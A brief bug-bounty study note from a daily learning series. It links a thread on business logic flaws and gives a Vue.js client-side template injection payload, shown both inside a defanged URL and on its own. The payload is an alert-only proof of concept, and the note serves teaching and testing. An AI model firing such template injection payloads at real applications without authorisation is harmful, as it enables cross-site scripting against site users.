 # 📅 29-Jan-2021

## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 28
- [Common Business Logic Issues: Part-1 ](https://twitter.com/harshbothra_/status/1354822724116389892?s=20)

## Vue.js Js Library Client Side Template Injection
```text
hxxp://host/?name={{this.constructor.constructor('alert("foo")')()}}
```

***Payload***
```js
{{this.constructor.constructor('alert("foo")')()}}
```
**Source:** https://twitter.com/wugeej/status/1354312840681668610?s=20
